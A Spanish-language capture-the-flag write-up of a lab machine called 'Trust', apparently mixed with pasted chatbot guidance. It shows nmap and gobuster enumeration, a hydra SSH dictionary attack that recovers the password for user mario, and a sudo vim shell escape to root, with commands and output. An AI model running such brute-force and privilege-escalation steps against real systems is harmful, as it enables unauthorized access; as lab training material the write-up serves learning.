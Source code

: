 # Máquina Trust

**IP**: 172.17.0.2
![imagen de la máquina desplegada](assets/trust_1.png)

## Fase de comprobación de conectividad

### 1. Ping
![imagen de la salida del comando ping](assets/trust_2.png)



###   Fase 1: Reconocimiento
1. Escaneo básico con Nmap
Vamos a identificar los puertos abiertos en la máquina.

Ejecuta:
![imagen del comando nmap](assets/trust_3.png)

### ¡Perfecto! El escaneo avanzado con Nmap nos ha dado información muy útil sobre la máquina 172.17.0.2. Vamos a analizar los resultados y continuar paso a paso.

Resultados del escaneo avanzado
Servicios y versiones:

Puerto 22/tcp:

Servicio: SSH

Versión: OpenSSH 9.2p1 Debian 2+deb12u2 (protocolo 2.0).

Puerto 80/tcp:

Servicio: HTTP

Versión: Apache httpd 2.4.57 (Debian).

Sistema operativo:

Sistema operativo: Linux (kernel 4.x o 5.x).

Detalles: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4).

Distancia de red:

La máquina está a 1 hop de distancia (es decir, está en la misma red local).

Fase 2: Análisis de servicios
1. Servicio SSH (puerto 22)
OpenSSH 9.2p1 es una versión relativamente reciente y segura. Es poco probable que tenga vulnerabilidades explotables directamente.

Sin embargo, podemos intentar un ataque de fuerza bruta si encontramos un nombre de usuario válido (por ejemplo, admin, root, user).

2. Servicio HTTP (puerto 80)
Apache 2.4.57 es una versión reciente, pero siempre es recomendable buscar vulnerabilidades específicas.

Vamos a investigar el servidor web para ver si hay directorios ocultos, archivos sensibles o aplicaciones web vulnerables.

Próximos pasos
Investigar el servidor web (puerto 80):

Usaremos curl o un navegador para ver qué hay en la página principal.

Luego, escanearemos directorios con una herramienta como gobuster para encontrar rutas ocultas.

Buscar vulnerabilidades en los servicios:

Revisaremos si hay exploits públicos para las versiones de Apache y OpenSSH.

Paso 1: Investigar el servidor web
1. Acceder a la página principal
Ejecuta:

bash
curl http://172.17.0.2


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>Apache2 Debian Default Page: It works</title>
    <style type="text/css" media="screen">
  * {
    margin: 0px 0px 0px 0px;
    padding: 0px 0px 0px 0px;
  }
.....

### markdown
Copy
### 4. Análisis del servicio HTTP
- Accedí al servidor web en el puerto 80.
- La página muestra: [Aquí pega el contenido que obtengas].
2. Escaneo de directorios con Gobuster
Ejecuta:

bash
Copy
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 275]
Progress: 220559 / 220560 (100.00%)
===============================================================
Finished
===============================================================
### ¡Gracias por compartir los resultados! Gobuster ha encontrado un directorio interesante:

/server-status: Este directorio devuelve un código de estado 403 (Prohibido), lo que significa que no tenemos acceso a él. Esto es común en servidores Apache, ya que /server-status suele estar restringido por razones de seguridad.

Análisis de los resultados
/server-status:

Este directorio es utilizado por Apache para mostrar el estado del servidor (por ejemplo, solicitudes activas, estadísticas, etc.).

El código 403 indica que el acceso está prohibido, lo cual es una configuración típica para evitar que usuarios no autorizados vean información sensible.

No se encontraron otros directorios:

Gobuster no encontró otros directorios o rutas accesibles en el servidor web. Esto sugiere que el servidor puede estar configurado de manera minimalista o que los directorios están ocultos detrás de nombres no comunes.

Próximos pasos
Investigar la página principal:

Aunque no se encontraron directorios adicionales, es importante revisar la página principal del servidor web (http://172.17.0.2) para ver si hay pistas o información útil.

Usa curl o abre la página en un navegador:

bash
Copy
curl http://172.17.0.2
Revisar el código fuente:

Si hay una página web, revisa su código fuente en busca de comentarios, enlaces ocultos o credenciales.

Buscar subdominios o virtual hosts:

A veces, los servidores web tienen múltiples sitios alojados en el mismo IP. Podemos intentar descubrir subdominios o virtual hosts.

Investigar el servicio SSH:

Dado que el servidor web no ha revelado mucha información, podemos enfocarnos en el servicio SSH (puerto 22) para intentar acceder al sistema.

Pregunta:
¿Quieres que continuemos con la investigación de la página principal usando curl, o prefieres explorar otra área (como SSH o subdominios)?

¡Espero tu respuesta para seguir avanzando! 😊
#
Buena idea! Agregar extensiones como .php, .txt, y .py al escaneo de Gobuster puede ayudarnos a descubrir archivos específicos que no aparecen en un escaneo de directorios estándar. Vamos a ejecutar Gobuster con esas extensiones y ver si encontramos algo interesante.

Paso 1: Ejecutar Gobuster con extensiones
Ejecuta el siguiente comando:

bash
Copy
### Fuzzing
Hacemos fuzzing al puerto 80 para ver si cuelga algun directorio o archivo de la raiz. 

![Fuzzing con gobuster](assets/trust_4.png)

gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.py

Explicación de los parámetros:
-u http://172.17.0.2: Especifica la URL objetivo.

-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt: Usa la lista de palabras de Seclists.

-x .php,.txt,.py: Busca archivos con estas extensiones.

Paso 2: Analizar los resultados
Una vez que Gobuster termine, revisaremos los resultados. Por ejemplo, si encuentra algo como:

Copy
/index.php            (Status: 200) [Size: 1234]
/secret.txt           (Status: 200) [Size: 567]
/admin.php            (Status: 301) [Size: 0]
Podemos investigar esos archivos para ver si contienen información útil.

Pregunta:
¿Quieres que ejecute el comando de Gobuster con las extensiones y te muestre los resultados, o prefieres hacerlo tú mismo y luego continuamos con el análisis?

¡Espero tu respuesta! 😊


┌──(pol㉿kali)-[/usr/share/seclists]
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882236 / 882240 (100.00%)
===============================================================
Finished
===============================================================

### ¡Excelente! Gobuster ha encontrado un archivo interesante: /secret.php con un código de estado 200 (OK), lo que significa que es accesible. Vamos a investigar este archivo para ver si contiene información útil.

Análisis de los resultados
/secret.php:

Este archivo podría contener información sensible, como credenciales, mensajes ocultos o incluso una puerta trasera.

Vamos a acceder a él usando curl o un navegador.

Otros resultados:

/.php y /server-status devuelven un código 403 (Prohibido), lo que significa que no tenemos acceso a ellos.

Paso 1: Investigar /secret.php
1. Acceder al archivo /secret.php
Ejecuta:

bash
Copy
curl http://172.17.0.2/secret.php

<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>¡Secreto!</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f0f0f0;
            margin: 0;
            padding: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }
        .container {
            text-align: center;
            background-color: #fff;
            padding: 20px;
            border-radius: 10px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        h1 {
            color: #333;
        }
        p {
            color: #666;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>Hola Mario,</h1>
        <p>Esta web no se puede hackear.</p>
    </div>
</body>
</html>

### Próximos pasos
Hydra
Utilizamos hydra para hacer un ataque de diccionario por SSH.
![señal de la máquina kali trabajando](assets/trust_5.png)
![hydra](assets/trust_6.png)

┌──(root㉿kali)-[/home/pol]
└─# hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-08 10:14:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-08 10:14:36

![ingresamos](assets/trust_7.png)

![probamos](assets/trust_8.png)
# mario@9de2e1532c9a:~$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign

![seguimos probando](assets/trust_9.png)
# mario@9de2e1532c9a:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 9de2e1532c9a:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User mario may run the following commands on 9de2e1532c9a:
    (ALL) /usr/bin/vim

No hay problema, te guío paso a paso en Vim para que puedas escalar privilegios correctamente.

Pasos detallados:
Ejecuta Vim como root
En la terminal, escribe:

bash
Copiar
Editar
sudo vim
Esto abrirá Vim con privilegios de root.

![ingresamos a vim](assets/trust_10.png)
Entra en modo de comandos
Presiona la tecla ESC para asegurarte de estar en modo normal.

Configura Vim para ejecutar una shell
Escribe lo siguiente y presiona Enter después de cada línea:
![ejecutamos:](assets/trust_11.png)
bash
Copiar
Editar
:set shell=/bin/sh
ruby
Copiar
Editar
:shell
Obtendrás una shell como root
Ahora deberías tener acceso a una shell interactiva con privilegios elevados. Verifícalo ejecutando:
![ejecutamos:](assets/trust_12.png)
bash
Copiar
Editar
whoami
id
¿Cómo salir de Vim si algo falla?
Si necesitas salir sin ejecutar la shell, puedes escribir:

less
Copiar
Editar
:q!
y presionar Enter.

Prueba estos pasos y dime si lograste obtener acceso como root. 🚀

mario@9de2e1532c9a:~$ sudo vim
![ingresamos](assets/trust_13.png)
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# hosname
/bin/sh: 3: hosname: not found
# 



